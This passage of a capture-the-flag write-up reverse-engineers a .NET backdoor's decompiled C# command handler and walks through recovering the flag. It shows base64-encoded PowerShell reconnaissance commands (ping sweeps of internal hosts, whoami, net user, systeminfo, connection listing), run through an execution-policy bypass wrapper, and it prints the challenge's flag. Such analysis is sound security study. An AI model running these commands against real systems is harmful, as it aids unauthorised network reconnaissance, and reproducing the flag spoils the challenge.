                                            text = FLARE02.flare_04("JAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4AMQAwAC4AMgAxAC4AMgAwADEAIAB8ACAAZgBpAG4AZABzAHQAcgAgAC8AaQAgAHQAdABsACkAIAAtAGUAcQAgACQAbgB1AGwAbAA7ACQAKABwAGkAbgBnACAALQBuACAAMQAgADEAMAAuADEAMAAuADEAOQAuADIAMAAxACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwAOwAkACgAcABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAxADkALgAyADAAMgAgAHwAIABmAGkAbgBkAHMAdAByACAALwBpACAAdAB0AGwAKQAgAC0AZQBxACAAJABuAHUAbABsADsAJAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4AMQAwAC4AMgA0AC4AMgAwADAAIAB8ACAAZgBpAG4AZABzAHQAcgAgAC8AaQAgAHQAdABsACkAIAAtAGUAcQAgACQAbgB1AGwAbAA=");
                                            FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                        }
                                    }
                                }
                            }
                            else
                            {
                                bool flag23 = num2 <= 468396612U;
                                if (flag23)
                                {
                                    bool flag24 = num2 != 451618993U;
                                    if (flag24)
                                    {
                                        bool flag25 = num2 == 468396612U;
                                        if (flag25)
                                        {
                                            bool flag26 = text == "10";
                                            if (flag26)
                                            {
                                                FLARE14.flare_56(int.Parse(text), "f38");
                                                text = "hostname";
                                                FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                            }
                                        }
                                    }
                                    else
                                    {
                                        bool flag27 = text == "17";
                                        if (flag27)
                                        {
                                            FLARE14.flare_56(int.Parse(text), "2e4");
                                            text = FLARE02.flare_04("JAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4ANgA1AC4ANAA1AC4AMQA4ACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwAOwAkACgAcABpAG4AZwAgAC0AbgAgADEAIAAxADAALgA2ADUALgAyADgALgA0ADEAIAB8ACAAZgBpAG4AZABzAHQAcgAgAC8AaQAgAHQAdABsACkAIAAtAGUAcQAgACQAbgB1AGwAbAA7ACQAKABwAGkAbgBnACAALQBuACAAMQAgADEAMAAuADYANQAuADMANgAuADEAMwAgAHwAIABmAGkAbgBkAHMAdAByACAALwBpACAAdAB0AGwAKQAgAC0AZQBxACAAJABuAHUAbABsADsAJAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4ANgA1AC4ANQAxAC4AMQAwACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwA");
                                            FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                        }
                                    }
                                }
                                else
                                {
                                    bool flag28 = num2 != 485174231U;
                                    if (flag28)
                                    {
                                        bool flag29 = num2 != 501951850U;
                                        if (flag29)
                                        {
                                            bool flag30 = num2 == 518729469U;
                                            if (flag30)
                                            {
                                                bool flag31 = text == "13";
                                                if (flag31)
                                                {
                                                    FLARE14.flare_56(int.Parse(text), "e38");
                                                    text = FLARE02.flare_04("bnNsb29rdXAgZmxhcmUtb24uY29tIHwgZmluZHN0ciAvaSBBZGRyZXNzO25zbG9va3VwIHdlYm1haWwuZmxhcmUtb24uY29tIHwgZmluZHN0ciAvaSBBZGRyZXNz");
                                                    FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                                }
                                            }
                                        }
                                        else
                                        {
                                            bool flag32 = text == "12";
                                            if (flag32)
                                            {
                                                FLARE14.flare_56(int.Parse(text), "570");
                                                text = FLARE02.flare_04("JAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4ANgA1AC4ANAAuADUAMAAgAHwAIABmAGkAbgBkAHMAdAByACAALwBpACAAdAB0AGwAKQAgAC0AZQBxACAAJABuAHUAbABsADsAJAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4ANgA1AC4ANAAuADUAMQAgAHwAIABmAGkAbgBkAHMAdAByACAALwBpACAAdAB0AGwAKQAgAC0AZQBxACAAJABuAHUAbABsADsAJAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4ANgA1AC4ANgA1AC4ANgA1ACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwAOwAkACgAcABpAG4AZwAgAC0AbgAgADEAIAAxADAALgA2ADUALgA1ADMALgA1ADMAIAB8ACAAZgBpAG4AZABzAHQAcgAgAC8AaQAgAHQAdABsACkAIAAtAGUAcQAgACQAbgB1AGwAbAA7ACQAKABwAGkAbgBnACAALQBuACAAMQAgADEAMAAuADYANQAuADIAMQAuADIAMAAwACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwA");
                                                FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                            }
                                        }
                                    }
                                    else
                                    {
                                        bool flag33 = text == "11";
                                        if (flag33)
                                        {
                                            FLARE14.flare_56(int.Parse(text), "818");
                                            text = FLARE02.flare_04("RwBlAHQALQBOAGUAdABUAEMAUABDAG8AbgBuAGUAYwB0AGkAbwBuACAAfAAgAFcAaABlAHIAZQAtAE8AYgBqAGUAYwB0ACAAewAkAF8ALgBTAHQAYQB0AGUAIAAtAGUAcQAgACIARQBzAHQAYQBiAGwAaQBzAGgAZQBkACIAfQAgAHwAIABTAGUAbABlAGMAdAAtAE8AYgBqAGUAYwB0ACAAIgBMAG8AYwBhAGwAQQBkAGQAcgBlAHMAcwAiACwAIAAiAEwAbwBjAGEAbABQAG8AcgB0ACIALAAgACIAUgBlAG0AbwB0AGUAQQBkAGQAcgBlAHMAcwAiACwAIAAiAFIAZQBtAG8AdABlAFAAbwByAHQAIgA=");
                                            FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                        }
                                    }
                                }
                            }
                        }
                        else
                        {
                            bool flag34 = num2 <= 906799682U;
                            if (flag34)
                            {
                                bool flag35 = num2 <= 822911587U;
                                if (flag35)
                                {
                                    bool flag36 = num2 != 806133968U;
                                    if (flag36)
                                    {
                                        bool flag37 = num2 == 822911587U;
                                        if (flag37)
                                        {
                                            bool flag38 = text == "4";
                                            if (flag38)
                                            {
                                                FLARE14.flare_56(int.Parse(text), "ea5");
                                                text = FLARE02.flare_04("WwBTAHkAcwB0AGUAbQAuAEUAbgB2AGkAcgBvAG4AbQBlAG4AdABdADoAOgBPAFMAVgBlAHIAcwBpAG8AbgAuAFYAZQByAHMAaQBvAG4AUwB0AHIAaQBuAGcA");
                                            }
                                        }
                                    }
                                    else
                                    {
                                        bool flag39 = text == "5";
                                        if (flag39)
                                        {
                                            FLARE14.flare_56(int.Parse(text), "bfb");
                                            text = "net user";
                                            FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                        }
                                    }
                                }
                                else
                                {
                                    bool flag40 = num2 != 839689206U;
                                    if (flag40)
                                    {
                                        bool flag41 = num2 != 873244444U;
                                        if (flag41)
                                        {
                                            bool flag42 = num2 == 906799682U;
                                            if (flag42)
                                            {
                                                bool flag43 = text == "3";
                                                if (flag43)
                                                {
                                                    FLARE14.flare_56(int.Parse(text), "113");
                                                    text = "whoami";
                                                    FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                                }
                                            }
                                        }
                                        else
                                        {
                                            bool flag44 = text == "1";
                                            if (flag44)
                                            {
                                                FLARE14.flare_56(int.Parse(text), "c2e");
                                                text = FLARE02.flare_04("RwBlAHQALQBOAGUAdABJAFAAQQBkAGQAcgBlAHMAcwAgAC0AQQBkAGQAcgBlAHMAcwBGAGEAbQBpAGwAeQAgAEkAUAB2ADQAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAEkAUABBAGQAZAByAGUAcwBzAA==");
                                                FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                            }
                                        }
                                    }
                                    else
                                    {
                                        bool flag45 = text == "7";
                                        if (flag45)
                                        {
                                            FLARE14.flare_56(int.Parse(text), "b");
                                            text = FLARE02.flare_04("RwBlAHQALQBDAGgAaQBsAGQASQB0AGUAbQAgAC0AUABhAHQAaAAgACIAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwAiACAAfAAgAFMAZQBsAGUAYwB0AC0ATwBiAGoAZQBjAHQAIABOAGEAbQBlAA==");
                                            FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                        }
                                    }
                                }
                            }
                            else
                            {
                                bool flag46 = num2 <= 1024243015U;
                                if (flag46)
                                {
                                    bool flag47 = num2 != 923577301U;
                                    if (flag47)
                                    {
                                        bool flag48 = num2 != 1007465396U;
                                        if (flag48)
                                        {
                                            bool flag49 = num2 == 1024243015U;
                                            if (flag49)
                                            {
                                                bool flag50 = text == "8";
                                                if (flag50)
                                                {
                                                    FLARE14.flare_56(int.Parse(text), "2b7");
                                                    text = FLARE02.flare_04("RwBlAHQALQBDAGgAaQBsAGQASQB0AGUAbQAgAC0AUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwAgACgAeAA4ADYAKQAnACAAfAAgAFMAZQBsAGUAYwB0AC0ATwBiAGoAZQBjAHQAIABOAGEAbQBlAA==");
                                                    FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                                }
                                            }
                                        }
                                        else
                                        {
                                            bool flag51 = text == "9";
                                            if (flag51)
                                            {
                                                FLARE14.flare_56(int.Parse(text), "9b2");
                                                text = FLARE02.flare_04("RwBlAHQALQBDAGgAaQBsAGQASQB0AGUAbQAgAC0AUABhAHQAaAAgACcAQwA6ACcAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAE4AYQBtAGUA");
                                                FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                            }
                                        }
                                    }
                                    else
                                    {
                                        bool flag52 = text == "2";
                                        if (flag52)
                                        {
                                            FLARE14.flare_56(int.Parse(text), "d7d");
                                            text = FLARE02.flare_04("RwBlAHQALQBOAGUAdABOAGUAaQBnAGgAYgBvAHIAIAAtAEEAZABkAHIAZQBzAHMARgBhAG0AaQBsAHkAIABJAFAAdgA0ACAAfAAgAFMAZQBsAGUAYwB0AC0ATwBiAGoAZQBjAHQAIAAiAEkAUABBAEQARAByAGUAcwBzACIA");
                                            FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                        }
                                    }
                                }
                                else
                                {
                                    bool flag53 = num2 != 2364708844U;
                                    if (flag53)
                                    {
                                        bool flag54 = num2 != 2381486463U;
                                        if (flag54)
                                        {
                                            bool flag55 = num2 == 2415041701U;
                                            if (flag55)
                                            {
                                                bool flag56 = text == "22";
                                                if (flag56)
                                                {
                                                    FLARE14.flare_56(int.Parse(text), "709");
                                                    text = "systeminfo | findstr /i \"Domain\"";
                                                    FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                                }
                                            }
                                        }
                                        else
                                        {
                                            bool flag57 = text == "20";
                                            if (flag57)
                                            {
                                                FLARE14.flare_56(int.Parse(text), "3c9974");
                                                text = FLARE02.flare_04("RwBlAHQALQBOAGUAdABJAFAAQwBvAG4AZgBpAGcAdQByAGEAdABpAG8AbgAgAHwAIABGAG8AcgBlAGEAYwBoACAASQBQAHYANABEAGUAZgBhAHUAbAB0AEcAYQB0AGUAdwBhAHkAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAE4AZQB4AHQASABvAHAA");
                                                FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                            }
                                        }
                                    }
                                    else
                                    {
                                        bool flag58 = text == "21";
                                        if (flag58)
                                        {
                                            FLARE14.flare_56(int.Parse(text), "8e6");
                                            text = FLARE02.flare_04("RwBlAHQALQBEAG4AcwBDAGwAaQBlAG4AdABTAGUAcgB2AGUAcgBBAGQAZAByAGUAcwBzACAALQBBAGQAZAByAGUAcwBzAEYAYQBtAGkAbAB5ACAASQBQAHYANAAgAHwAIABTAGUAbABlAGMAdAAtAE8AYgBqAGUAYwB0ACAAUwBFAFIAVgBFAFIAQQBkAGQAcgBlAHMAcwBlAHMA");
                                            FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                        }
                                    }
                                }
                            }
                        }
                    }
                    string s2 = FLARE02.flare_06(FLARE02.flare_03(text));
                    resultData = Encoding.UTF8.GetBytes(s2);
                });
                thread.Start();
                bool flag5 = !thread.Join(FLARE03.task_timeout);
                if (flag5)
                {
                    thread.Abort();
                    resultData = Encoding.UTF8.GetBytes("timeout");
                }
            }
            bool flag6 = resultData != null;
            if (flag6)
            {
                byte[] array3 = FLARE04.flare_18(resultData);
                bool flag7 = array3.Length < resultData.Length;
                if (flag7)
                {
                    resultData = new byte[]
                    {
                        61
                    }.Concat(array3).ToArray<byte>();
                }
                else
                {
                    resultData = new byte[]
                    {
                        57
                    }.Concat(resultData).ToArray<byte>();
                }
            }
            byte[] array4 = new byte[(resultData == null) ? 0 : resultData.Length];
            bool flag8 = resultData != null;
            if (flag8)
            {
                Array.Copy(resultData, 0, array4, 0, resultData.Length);
            }
            FLARE14.ListData.RemoveAt(0);
            result = FLARE07.E;
            FLARE05.flare_28(array4);
        }
    }
    catch (Exception ex2)
    {
        result = FLARE07.B;
    }
    return result;
}
```

So, we have **21** different commands. Let's see a command:
```c#
bool flag15 = text == "19";
if (flag15)
{
    FLARE14.flare_56(int.Parse(text), "146");
    text = FLARE02.flare_04("JChwaW5nIC1uIDEgMTAuNjUuNDUuMyB8IGZpbmRzdHIgL2kgdHRsKSAtZXEgJG51bGw7JChwaW5nIC1uIDEgMTAuNjUuNC41MiB8IGZpbmRzdHIgL2kgdHRsKSAtZXEgJG51bGw7JChwaW5nIC1uIDEgMTAuNjUuMzEuMTU1IHwgZmluZHN0ciAvaSB0dGwpIC1lcSAkbnVsbDskKHBpbmcgLW4gMSBmbGFyZS1vbi5jb20gfCBmaW5kc3RyIC9pIHR0bCkgLWVxICRudWxs");
    FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
}
```

Each command has an unique ID (here **19**), which server uses to execute that command.
Function `FLARE02.flare_04` (which wraps `FLARE02.flared_03`) adds a powershell wrap to the command
(we can base64 decode the command to see what it does):
```c#
// Token: 0x06000008 RID: 8 RVA: 0x000023DC File Offset: 0x000093DC
public static string flared_03(string c)
{
    return "powershell -exec bypass -enc \"" + c + "\"";
}
```

The next important part is `FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));`
Where it appends the command to a hash (`FLARE14.h`) along with the output of `flare_57`:
```c#
// Token: 0x0600009A RID: 154 RVA: 0x00004FDC File Offset: 0x0000BFDC
public static string flared_57()
{
    StackTrace stackTrace = new StackTrace();
    return stackTrace.GetFrame(1).GetMethod().ToString() + stackTrace.GetFrame(2).GetMethod().ToString();
}

// Token: 0x0600009B RID: 155 RVA: 0x0000501C File Offset: 0x0000C01C
public static string flare_57()
{
    string result;
    try
    {
        result = FLARE14.flared_57();
    }
    catch (InvalidProgramException e)
    {
        result = (string)FLARE15.flare_70(e, null);
    }
    return result;
}
```

This is just the second and the third functions from the stack trace when `flared_57` is invoked.
This is tricky: **Since these functions are actually encrypted, they are invoked by 
`dynamicMethod.Invoke(null, a);` inside `flared_70`, so we expect the stack frame to contain 
functions from the reflection framework**.

The simplest way to find that is to load `FlareOn.Backdoor.patched.exe`, invoke `flared_57` using
reflection and see what the output is (it is important to make sure we run in 
**.NET framework 4.7.2** which matches the version that the executable was compiled):
```
[assembly: TargetFramework(".NETFramework,Version=v4.7.2", FrameworkDisplayName = ".NET Framework 4.7.2")]
```

The code in [GetStackTrace.cs](./GetStackTrace.cs) gets the calls from the stack frame:
```c#
System.Object InvokeMethod(System.Object, System.Object[], System.Signature, Boolean)
System.Object Invoke(System.Object, System.Reflection.BindingFlags, System.Reflection.Binder, System.Object[], System.Globalization.CultureInfo)
```

#### Getting the Flag

Okay, so far we know exactly how the backdoor works, but where is the flag? We mentioned earlier
that command appends data `FLARE14.h`. Let's check its XREFs TO:
```c#
// Token: 0x06000074 RID: 116 RVA: 0x000041C8 File Offset: 0x0000B1C8
public static void flared_42(uint s = 5489U)
{
    FLARE11.state = new uint[624];
    FLARE11.f = 1812433253U;
    FLARE11.m = 397U;
    FLARE11.u = 11U;
    FLARE11.s = 7U;
    FLARE11.b = 2636928640U;
    FLARE11.t = 15U;
    FLARE11.c = 4022730752U;
    FLARE11.l = 18U;
    FLARE11.index = 624U;
    FLARE11.lower_mask = 2147483647U;
    FLARE11.upper_mask = 2147483648U;
    FLARE11.state[0] = s;
    bool flag = FLARE14.h == null;
    if (flag)
    {
        FLARE14.h = IncrementalHash.CreateHash(HashAlgorithmName.SHA256);
        FLARE15.c.CollectionChanged += FLARE14.flare_53;
    }
    for (int i = 1; i < 624; i++)
    {
        FLARE11.state[i] = FLARE11.flare_45((long)((ulong)(FLARE11.f * (FLARE11.state[i - 1] ^ FLARE11.state[i - 1] >> 30)) + (ulong)((long)i)));
    }
}
```

First we have `FLARE15.c` which is initialized in `flare_74`:
```c#
FLARE15.c = new ObservableCollection<int>
{
    250,    242,    240,    235,    243,    249,    247,    245,
    238,    232,    253,    244,    237,    251,    234,    233,
    236,    246,    241,    255,    252
};
```

And being modified in `flared_55` (wrapped by `flare_56`):
```c#
public static void flared_55(int i, string s)
{
    bool flag = FLARE15.c.Count != 0 && FLARE15.c[0] == (i ^ 248);
    if (flag)
    {
        FLARE14.sh += s;
        FLARE15.c.Remove(i ^ 248);
    }
    else
    {
        FLARE14._bool = false;
    }
}
```

Now the first command statement `FLARE14.flare_56(int.Parse(text), "146");` makes sense:
We check the command ID. If it is the next in the `FLARE15.c` "list" we remove it, and we
add the second parameter (`146`) to `FLARE14.sh`. That reveals the order of the commands
that we should execute:
```
    2, 10, 8, 19, 11, 1, 15, 13, 22, 16, 5, 12, 21, 3, 18, 17, 20, 14, 9, 7, 4
```

Now let's see where `FLARE14.sh` is used:
```c#
// Token: 0x06000095 RID: 149 RVA: 0x00004B94 File Offset: 0x0000BB94
public static void flared_54()
{
    byte[] d = FLARE15.flare_69_LOAD_CIPHER_FROM_PE_SECTION(FLARE14.flare_54(FLARE14.sh));
    byte[] hashAndReset = FLARE14.h.GetHashAndReset();
    byte[] array = FLARE12.flare_46_RC4_DECRYPT(hashAndReset, d);
    string text = Path.GetTempFileName() + Encoding.UTF8.GetString(FLARE12.flare_46_RC4_DECRYPT(hashAndReset, new byte[]
    {
        31,
        29,
        40,
        72
    }));
    using (FileStream fileStream = new FileStream(text, FileMode.Create, FileAccess.Write, FileShare.Read))
    {
        fileStream.Write(array, 0, array.Length);
    }
    Process.Start(text);
}
```

This is somewhat similar to `flared_70_DECRYPT_PROC_LAYER_2`. Function uses the `FLARE14.sh` to
load a PE section, then it uses RC4 to decrypt it. The decryption key is the concatenation of 
all commands plus the stack frames from the reflection (see how `FLARE14.h` is computed
inside `flared_56`). The it also decrypts the file extension (it is only **4** bytes) and writes
the data to the file.

Please note that `flare_54` (which wraps `flared_53`) inverts the digest:
```c#
// Token: 0x06000093 RID: 147 RVA: 0x00004B28 File Offset: 0x0000BB28
public static string flared_53(string s)
{
    char[] array = s.ToCharArray();
    Array.Reverse(array);
    return new string(array);
}
```

So, all we have to do, is to iterate over all C&C commands (in the right order), compute the
hash and use it to decrypt the PE section. We use [backdoor_crack.py](./backdoor_crack.py)
script. The decrypted file has the `.gif` file extension and contains the flag:


So, the flag is: `W3_4re_Kn0wn_f0r_b31ng_Dyn4m1c@flare-on.com`

___
